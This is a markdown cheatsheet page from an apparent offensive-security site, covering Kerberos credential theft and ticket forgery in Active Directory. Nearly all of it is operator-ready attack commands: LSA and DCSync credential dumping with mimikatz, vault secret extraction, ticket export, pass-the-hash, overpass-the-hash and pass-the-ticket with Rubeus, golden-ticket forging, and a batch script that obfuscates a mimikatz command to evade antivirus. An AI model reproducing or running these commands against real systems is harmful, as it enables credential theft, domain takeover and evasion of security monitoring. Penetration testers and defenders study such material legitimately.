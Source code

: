 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2025-02-05
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
	* [load-rubeus](#load-rubeus)
* [technics](#technics)
	* [command-obfuscation](#command-obfuscation)
	* [cleartext-2-nthash](#cleartext-2-nthash)
	* [get-tgt](#get-tgt)
	* [golden](#golden)
	* [silver](#silver)
	* [vault](#vault)
	* [lsadump-lsa](#lsadump-lsa)
	* [lsadump-dcsync](#lsadump-dcsync)
	* [ccache-convert](#ccache-convert)
	* [krb-export](#krb-export)
	* [krb-pth](#krb-pth)
	* [krb-ptt](#krb-ptt)
* [which-os-what-creds](#which-os-what-creds)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->



## <a name='tools'></a>tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/GhostPack/Rubeus","https://api.github.com/repos/Flangvik/BetterSafetyKatz","https://api.github.com/repos/gentilkiwi/mimikatz","https://api.github.com/repos/zer1t0/cerbero","https://api.github.com/repos/skelsec/pypykatz"]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

### <a name='load-rubeus'></a>load-rubeus
```powershell
```

## <a name='technics'></a>technics

### <a name='command-obfuscation'></a>command-obfuscation
```bat
REM script file to obfuscate the token manipulation commands 
 @echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\SafetyKatz.exe %Pwn% exit
```

### <a name='cleartext-2-nthash'></a>cleartext-2-nthash
```powershell
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

### <a name='get-tgt'></a>get-tgt
```powershell
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

## forged-tickets

### <a name='golden'></a>diamond

* TGT modification, avoid detection of forged TGT without PREAUTH 
* requires the KRBTGT$ account hash

### <a name='golden'></a>golden

* TGT forging, there is no PREAUTH / Kerberos AS-REQ, AS-REP exchanges with the DC
* requires the KRBTGT$ account hash

```powershell
# contains secrets for the: scheduled tasks, ...
Rubeus.exe -args golden /aes256:$ztarg_user_hash /sid:$ztarg_user_sid /ldap /user:$ztarg_user_name /printcmd
```

### <a name='silver'></a>silver

* service account hash required to forgort a TGS
* it is mostly the machine account hash, valid for 30 days by default
* more silent than the golden ticket, no kerberos interaction with the DC (aka no AS-REQ, TGS-REQ)

| Service Type 				| 	Service Silver Tickets 	|
|---------------------------|---------------------------|
| WMI						| HOST RPCSS				|
| PowerShell Remoting 		| HOST HTTP (WSMAN RPCSS)	|
| WinRM						| HOST HTTP	 	 			|
| Scheduled Tasks 			| HOST 						| 
| Windows File Share (CIFS) | CIFS 						|
| LDAP operations (DCSync)  | LDAP 						|	
| Windows RSAT 				| RPCSS LDAP CIFS 			|	


### <a name='vault'></a>vault
```powershell
# contains secrets for the: scheduled tasks, ...
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### <a name='lsadump-lsa'></a>lsadump-lsa
```powershell
# dump lsa process
Invoke-Mimi -Command '"token::elevate" "lsadump::lsa /patch"'
Invoke-Mimi -Command '"token::elevate" "sekurlsa::evasive-keys /patch"'
```
### <a name='lsadump-dcsync'></a>lsadump-dcsync
```powershell
# dcsync
Invoke-Mimi -Command '"token::elevate" "lsadump::dcsync"'
```

### <a name='ccache-convert'></a>ccache-convert

```python
# Convert linux to windows krb ticket :
ticketConverter.py $ztarg_user_name".ccache" $ztarg_user_name".krb"
cerbero convert -i $ztarg_user_name".ccache" -o $ztarg_user_name".krb"
```

### <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

### <a name='krb-pth'></a>krb-pth
```powershell
# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"

# opth
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### <a name='krb-ptt'></a>krb-ptt
```bash
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /createnetonly:C:\Windows\System32\cmd.exe
```

## <a name='which-os-what-creds'></a>which-os-what-creds

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)
